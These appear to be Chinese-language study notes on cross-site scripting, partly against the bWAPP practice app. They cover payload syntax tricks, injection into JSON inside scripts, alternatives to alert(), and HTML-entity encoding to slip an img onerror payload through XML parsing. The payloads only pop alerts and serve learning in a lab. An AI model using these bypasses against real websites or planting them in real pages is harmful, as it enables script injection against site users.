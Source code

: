 ```
<input/autofocus/onfocus=print`/xss/`> == <input autofocus onfocus=print`/xss/`>
注意：/不能靠近属性值！
<img/src=1/onerror=alert(1)>     <!-- 失败 -->
```

## 四、bwapp

### 1. "无解"场景

```
1. 后端使用了 htmlspecialchars对 &、"、'、</> 进行html编码
2. payload在innerhtml中
```

```
1. payload在类似herf可以存储url的属性值中
2. 被url编码
<a href=xss_href-3.php?movie=3&name=%3Csadsa%3E&action=vote>Vote</a>
```

### 2. json注入

payload出现在js代码中的json数据中：

```
在json中执行的条件是：不在任何引号内
1. var searchResultsObj = {"results":[],"searchTerm":"\\\\"-alert(1)}//"} //alert会执行
2. var JSONResponseString = '{"movies":[{"response":""}]-alert()}'; 不执行，因为还被''包着
3. eval('{"movies":"";alert();}');不执行
4. eval('{alert();}');执行，换成parse不执行
```

### 3. 代替alert()的函数

```
1. prompt()
2. print()
3. confirm()
```

### 4. XML的html编码绕过

如果Payload在XML中，那么输入<、>就会照成错误，因为尖括号会影响xml的格式

解决：

1. 使用html实体化编码

成立条件：

1. 后端对XML对象进行(**DOM化处理=自动html解码一次**)

```js
<script>
// XML 字符串（含实体编码）
const xmlResponse = '<?xml version="1.0" encoding="UTF-8" standalone="yes"?><response>&#x003c;&#x0069;&#x006d;&#x0067;&#x0020;&#x0073;&#x0072;&#x0063;&#x003d;&#x0031;&#x0020;&#x006f;&#x006e;&#x0065;&#x0072;&#x0072;&#x006f;&#x0072;&#x003d;&#x0061;&#x006c;&#x0065;&#x0072;&#x0074;&#x0028;&#x0029;&#x003e;our master really loves Marvel movies :)</response>';

// 解析 XML
const parser = new DOMParser();
const xmlDoc = parser.parseFromString(xmlResponse, "text/xml");
const xmlDocumentElement = xmlDoc.documentElement;

// 提取文本内容（自动解码实体）
const result = xmlDocumentElement.textContent;

```